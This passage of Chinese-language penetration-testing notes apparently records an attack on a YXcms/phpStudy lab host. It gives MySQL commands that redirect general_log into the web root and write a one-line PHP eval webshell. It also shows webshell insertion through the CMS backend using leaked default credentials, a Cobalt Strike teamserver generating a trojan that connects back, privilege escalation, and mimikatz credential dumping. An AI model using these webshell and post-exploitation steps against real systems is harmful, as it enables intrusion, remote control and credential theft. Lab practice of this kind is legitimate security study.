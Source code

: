     ```s
     
    #查路径
    show variables like '%datadir%';
    或者
    select @@basedir

    #查权限
    SHOW GRANTS FOR root@localhost

    SHOW GLOBAL VARIABLES LIKE '%secure_file_priv%'
    
    #日志写shell
    #general_log 默认关闭，开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。可以尝试自定义日志文件，并向日志文件里面写入内容的话
    SHOW VARIABLES LIKE '%general%'

    #打开日志
    set global general_log="on"
    
    set global general_log_file="C:/phpStudy/WWW/a.php" #修改日志路径
    select "<?php @eval($_GET['cmd']); ?>"#写shell

    # 这里蚁剑成功了，但是冰蝎没成功，或许和php版本有关？

    ```


* 网站后台写shell

    ```s
     
    访问yxcms目录，发现有信息泄露

    #本站为YXcms的默认演示模板，YXcms是一款基于PHP+MYSQL构建的高效网站管理系统。 后台地址请在网址后面加上/index.php?r=admin进入。 后台的用户名:admin;密码:123456，请进入后修改默认密码。

    登录后台进入前台管理模块，找到index_index.php页面，开头写入一句话木马，蚁剑连接

    cobaltstrike:./teamserver 192.168.197.132 pass#打开服务端
    客户端start.bat打开

    attack->packages->windows executable#生成木马

    蚁剑上传木马到目标主机，再开被控主机虚拟终端执行木马

    CS监听到反弹连接，右键被控机进行提权，

    ```

# 远程登录

* 获取凭证

    ```s
     
    提权system后hashdump->mimikatz获取主机登陆密码hongri@2022#这是之前改过后的密码

    ```
